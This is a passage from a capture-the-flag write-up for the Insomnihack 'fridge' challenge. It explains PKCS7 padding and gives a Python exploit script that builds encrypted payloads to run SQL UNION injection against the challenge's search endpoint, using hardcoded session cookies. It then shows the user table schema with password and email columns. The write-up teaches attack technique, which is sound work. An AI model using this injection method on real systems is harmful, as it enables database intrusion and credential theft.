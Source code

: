 One last think we have to watch out - padding. Length of data encrypted with block cipher must be multiple of 16 bytes, always. What if we are encrypting something shorter? That's when padding comes in:

One of popular padding schemes (PKCS7 to be precise) works as follows:
* if last block is 1 byte short of 16 bytes, append '\x01' to the end
* if last block is 2 bytes short of 16 bytes, append '\x02\x02' to the end
* if last block is 3 bytes short of 16 bytes, append '\x03\x03\x03' to the end
* ...
* and, important: if length of ciphertext is exactly multiple of 16 bytes, append '\x10\x10\x10\x10\x10\x10\x10\x10\x10\x10\x10\x10\x10\x10\x10\x10'

Last condition is necessary, because otherwise we cannot uniquely remove padding. So we have to remember that even though data we are encrypting IS multiple of 16 bytes, last block will be phony block consisting only of 0x10 bytes, and we will have to append it after processing.

Finally, merging all these ideas, we wrote following tool: [final.py](final.py):

```python
def hack(query):
    parts = encrypt2(query)
    part = ''.join(parts)
    prfx = 'b15fd5ffdae30bbe81f2ba9ec6930473cce0dd7d051074345c5a8090ba39d24c'
    sufx = 'b9719c83f5ab5c0751937a39150c920d'
    return prfx + part + sufx 

def hack2(query):
    payload = hack(query)
    session = '16if76517xm5zvvwn0l09yq8hqwbgdi5'
    cookies = {'sessionid': session}
    cookies[
        'AWSELB'] = '033F977F02D671BCE8D4F0E661D7CA8279D94E64EFD0AA7BC023208F4937F97452EF3E07B21CF2698ED17FB3AE4D8A6166A17A44ACBC6810BEC0739D56BBE463F63CC54BC91275B57E8FE8CBB9B39F65DFAFFA27C1'
    url = 'http://fridge.insomnihack.ch/search/'
    r = requests.get(url + payload, cookies=cookies)
    return r.text

def hack3(query):
    return hack2(' union all select 1, (' + query + '), 3, 4, 5 union all select 1, 2, 3, 4, 5 from objsearch_user ')

import sys
print hack3(sys.argv[1])
```

It allows us to trivially execute any SQL query on database - looks like we managed to solve challenge.

We found three tables in database: objsearch_user, objsearch_object and sqlite_sequence.

So we just queried sqlite_master for DDL for objsearch_user:

    CREATE TABLE &quot;objsearch_user&quot; (&quot;id&quot; integer NOT NULL PRIMARY KEY AUTOINCREMENT, &quot;username&quot; varchar(200) NOT NULL, &quot;description&quot; varchar(2000) NOT NULL, &quot;password&quot; varchar(200) NOT NULL, &quot;email&quot; varchar(200) NOT NULL)
